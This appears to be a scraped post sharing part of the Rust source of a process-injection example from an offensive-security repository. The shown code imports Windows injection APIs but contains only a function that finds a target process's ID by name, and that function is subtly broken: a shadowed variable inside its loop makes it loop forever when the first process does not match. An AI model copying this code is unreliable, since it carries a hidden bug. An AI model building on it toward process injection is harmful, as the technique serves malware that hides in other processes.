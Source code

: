 ![](https://i.redd.it/5rli0pyhrdx71.jpg)

Source : [OffensiveRust - Process_Injection_CreateRemoteThread](https://github.com/trickster0/OffensiveRust/tree/master/Process_Injection_CreateRemoteThread)

```rs
extern crate kernel32;
use winapi::um::winnt::{PROCESS_ALL_ACCESS,MEM_COMMIT,MEM_RESERVE,PAGE_EXECUTE_READWRITE};
use winapi::um::tlhelp32::{TH32CS_SNAPPROCESS, Process32First, Process32Next, CreateToolhelp32Snapshot};
use winapi::um::handleapi::CloseHandle;
use winapi::um::tlhelp32::PROCESSENTRY32;
use std::ptr;
use std::env;
use std::ffi::CString;
use std::process;
use std::convert::TryInto;
use winapi::um::winuser::MessageBoxA;
use std::{thread, time};

// Find Process ID , I chose the C++ way of doing this, ofcourse you can use rust crates to do the same job
fn find_proc_id(proc_name: &str) -> u32 {
    let h_snapshot = unsafe { CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0) };
    if h_snapshot == ptr::null_mut() {
        return 0;
    }

    let mut pe =  PROCESSENTRY32 {
        dwSize: std::mem::size_of::<PROCESSENTRY32>() as u32,
        cntUsage: 0,
        th32ProcessID: 0,
        th32DefaultHeapID: 0,
        th32ModuleID: 0,
        cntThreads: 0,
        th32ParentProcessID: 0,
        pcPriClassBase: 0,
        dwFlags: 0,
        szExeFile: [0; 260],
    };

    let h_result = unsafe { Process32First(h_snapshot, &mut pe) };
    if h_result == 0 {
        unsafe { CloseHandle(h_snapshot) };
        return 0;
    }

    let proc_name = CString::new(proc_name).unwrap();
    let mut pid: u32 = 0;

    while h_result != 0 {
        let exe_file = unsafe { std::ffi::CStr::from_ptr(pe.szExeFile.as_ptr()) };
        if exe_file.to_str().unwrap() == proc_name.to_str().unwrap() {
            pid = pe.th32ProcessID;
            break;
        }
        let h_result = unsafe { Process32Next(h_snapshot, &mut pe) };
    }

    unsafe { CloseHandle(h_snapshot) };
    pid
}


```